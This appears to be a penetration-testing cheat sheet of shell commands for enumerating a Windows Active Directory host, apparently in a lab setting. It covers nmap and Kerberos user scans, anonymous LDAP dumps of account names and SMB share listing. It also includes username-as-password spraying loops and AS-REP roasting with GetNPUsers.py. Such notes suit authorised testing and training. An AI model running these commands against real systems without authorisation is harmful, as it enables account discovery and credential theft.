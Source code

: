 # Basic Windows Enumeration

```text
nmap -sC -sV $ip -Pn > nmap
```

```text
nmap -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='cascade.local' 10.10.10.18
```

```text
ldapsearch -h $ip -x -s base namingcontexts
```

```text
ldapsearch -h $ip -x -b "DC=$DOMAIN,DC=COM" '(ObjectClass=Person)' sAMAccountName | grep sAMAccountName  | awk {'print $2'} > ldap.users
```

```text
smbclient -L //$ip
```

```text
for i in $(cat ldap.users); do smbclient -L $ip -U=$i; done
```

```text
for i in $(cat ldap.users); do smbclient -L $ip -U=$i%$i; done
```

```text
crackmapexec smb $ip --pass-pol -u '' -p ''
```

```text
GetNPUsers.py $domain/ -request -dc-ip $ip -no-pass -usersfile users.txt
```

